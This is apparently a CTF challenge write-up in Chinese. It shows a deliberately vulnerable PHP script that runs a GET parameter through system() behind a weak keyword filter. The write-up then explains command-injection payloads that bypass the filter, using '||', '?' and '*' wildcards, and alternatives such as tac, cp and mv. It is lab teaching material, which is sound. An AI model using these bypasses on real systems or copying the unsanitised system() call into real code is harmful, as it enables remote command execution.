



```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 21:32:01
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/;|cat|flag/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

flag

以及无输出


### 第一种

同样利用||绕过无输出

?匹配字符

```
?c=ls||
```



```
?c=/bin/ca? fl??.php||
```




### 第二种

利用?匹配命令，利用*匹配flag

```
?c=/bin/ca? fl*||
```




### 第三种

tac


### 第四种

cp


### 第五种

mv

